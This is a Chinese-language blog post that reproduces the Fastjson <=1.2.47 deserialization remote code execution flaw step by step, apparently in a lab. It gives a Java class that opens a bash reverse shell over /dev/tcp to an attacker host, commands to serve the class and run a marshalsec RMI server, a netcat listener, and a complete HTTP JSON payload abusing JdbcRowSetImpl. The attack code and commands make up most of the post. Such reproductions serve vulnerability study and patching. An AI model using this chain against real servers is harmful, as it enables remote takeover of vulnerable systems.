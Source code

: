 ```yaml
---
title: Fastjson反序列化
date: 2021-01-11 21:45:35
categories: 漏洞复现
tags: Fastjson
---
```


#### 背景

​	fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。其目前已经被广泛应用在各种场景中，包括cache存储、RPC通讯、MQ通讯、网络协议通讯、Android客户端、Ajax服务器处理程序等等。

​	而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

<!--more-->

**影响版本**

- fastjson <= 1.2.47

#### 复现过程

1.新建Exploit.java文件(名字随便起)，写入如下代码

```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.108/53;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

注意反弹shell的地址及端口

2.编译生成**Exploit.class**

`javac Exploit.java`

3.启动简单的http服务(和生成的Exploit.class在同一目录下)

`python3 -m http.server 80`

![](https://cdn.laohuan.art/Snipaste_2021-01-11_21-25-27.png)

4.借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.108/#Exploit" 8080`

![](https://cdn.laohuan.art/Snipaste_2021-01-11_21-29-27.png)

5.nc 开启监听

`nv -lvp 53`

6.使用bp发送如下payload

```http
POST / HTTP/1.1
Host: 192.168.0.104:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 163

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.0.108:8080/Exploit",
        "autoCommit":true
    }

}
```

注意rmi地址

![](https://cdn.laohuan.art/Snipaste_2021-01-11_21-31-17.png)



7.回弹shell

![](https://cdn.laohuan.art/Snipaste_2021-01-11_21-34-26.png)

##### fastjson检查脚本

[https://github.com/mrknow001/fastjson_rec_exploit](https://github.com/mrknow001/fastjson_rec_exploit)

##### 参考链接

[https://www.cnblogs.com/lyh1/p/nul1.html](https://www.cnblogs.com/lyh1/p/nul1.html)
[https://www.freesion.com/article/38861395538/](https://www.freesion.com/article/38861395538/)
[https://www.jianshu.com/p/e22c9dd4ed6d](https://www.jianshu.com/p/e22c9dd4ed6d)

[https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce](https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce)

